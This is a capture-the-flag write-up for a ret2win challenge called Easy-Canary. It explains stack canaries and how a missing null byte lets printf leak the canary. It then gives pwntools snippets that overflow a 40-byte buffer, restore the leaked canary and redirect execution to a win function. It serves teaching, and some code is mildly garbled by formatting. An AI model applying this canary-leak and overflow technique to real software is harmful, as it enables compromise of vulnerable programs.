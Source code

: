 # Easy-Canary

This challenge consisted of a ret2win, with stack canaries implemented.

## Prerequisites:
Know how buffer overflows work.

## What are stack canaries?
The term comes from the historical use of canaries in coal mines. Since canaries are more vulnerable to toxic gases than humans are, coal miners would bring canary birds with them. When the canary died, they would know that they would also die soon and could safely evacuate the mine.
Stack canaries are "secret" values placed on the stack just before the return address. Attackers usually have the goal of changing the return address with a BOF (buffer overflow), but to do that, the canary must be overwritten as well.
So compilers insert code to the following:

1.Place a random canary value (at program startup) on the stack.
2.Check the canary before returning from a function.
3.If the canary is corrupted, terminate the program (usually with via \_\_stack_chk_fail()).

For more information, check out this article: https://ctf101.org/binary-exploitation/stack-canaries/

## What was the vulnerability?
In easy-canary there is a buffer-overflow opportunity to buf. The buf has a size of 40 bytes, but we can insert 256 bytes. This leads us to try to overwrite the return address with a simple BOF. However, since the canary is present, a simple BOF won't work, the program will just crash, because the canary value won't stay the same.

### Just a bit more theory.
Before we dive into the exploit we need to understand how the printf() works in C.
Imagine we have a sentence like this:

`"Hey we are Capitão Sapinhas and we are a ctf team we love to do ctfs"`

What's missing here? Punctuation! If we asked someone to read the first sentence they would not know that it stops at "ctf team" because there is no period.
The way that printf() works is exactly the same. For printf() to know where to stop printing stuff it needs to have a "period", in this case a null byte "\x00". Strings are null terminated (ex: "car\x00"), so functions like printf() know where to stop printing data and not reveal any sensitive information.

Now that we have that out of the way we can understand the exploit.

First part:
```
io.sendlineafter(b'> ', b'1')
payload = \x00 \* 40 + b"x"
io.send(payload)
```

In this snippet all we do is fill the buffer with 40 null bytes, and one "x".
Visually speaking

Before the attack:

`
[buffer(40 bytes)][canary(eg:"\x00\xFF\xFF\xFF\xFF\xFF\xFF\xFF)][returnaddress]
`

After the attack:

`
[buffer(filled)][canary(eg:"x\xFF\xFF\xFF\xFF\xFF\xFF\xFF)][returnaddress]
`

The printf function, instead of stopping printing at the canary, since there is no null byte, it will actually print the canary!
```
io.sendlineafter(b'> ', b'2')
io.recvuntil(payload)
canary = u64(b'\0' + io.recv(7))
log.info(f'{canary = :#0x}')
```
We print the actual canary with the "Printf your name" function. We have the canary!! Now all we have to do is a buffer overflow but replacing the canary with the value we know so that the program won't crash.
```
win = elf.symbols["win"]
print(hex(win))

payload2 = b"a" _ 40 + p64(canary) + b"b" _ 8 + p64(win+4)
print(payload2)

io.sendline(b"1")
io.recv()
io.sendline(payload2)
io.recv()
io.sendline(b"3")
io.interactive()
```

payload2 is filling the buffer, inserting the canary and changing the return address to the win function.
When we exit, the program will return to the win function.
